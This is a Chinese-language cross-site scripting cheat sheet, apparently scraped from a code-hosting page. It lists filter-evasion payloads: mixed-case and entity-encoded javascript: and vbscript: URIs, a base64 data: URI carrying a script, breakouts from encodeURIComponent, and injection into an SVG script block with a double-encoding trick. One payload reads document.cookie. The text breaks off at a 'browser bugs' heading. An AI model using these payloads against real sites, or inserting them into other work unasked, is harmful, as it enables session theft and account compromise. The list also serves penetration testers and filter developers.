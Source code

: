 主要包含大小写和

JavaScript变形
```
    javascript&#058;alert(1)
    javaSCRIPT&colon;alert(1)
    JaVaScRipT:alert(1)
    javas&Tab;cript:\u0061lert(1);
    javascript:\u0061lert&#x28;1&#x29
    javascript&#x3A;alert&lpar;document&period;cookie&rpar;      // AsharJaved
```
IE10以下和URI中可以使用VBScript
``` 
    vbscript:alert(1);
    vbscript&#058;alert(1);
    vbscr&Tab;ipt:alert(1)"
```
Data URl
```	
    data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
JSON内容

反射输入
```	
    encodeURIComponent(&#039;userinput&#039;)
```
可以使用
```
    -alert(1)-
    -prompt(1)-
    -confirm(1)-
```
结果
```
	
    encodeURIComponent(&#039;&#039;-alert(1)-&#039;&#039;)
    encodeURIComponent(&#039;&#039;-prompt(1)-&#039;&#039;)
```
输入反射在svg标签内

源码如下：
```
<svg><script>varmyvar=”YourInput”;</script></svg>
```
可以输入
```
www.site.com/test.php?var=text”;alert(1)//
```
如果系统编码了”字符
```
<svg><script>varmyvar="text&quot;;alert(1)//";</script></svg>
```
原因是引入了附加的（XML）到HTML内容里，可以使用2次编码处理

浏览器BUG
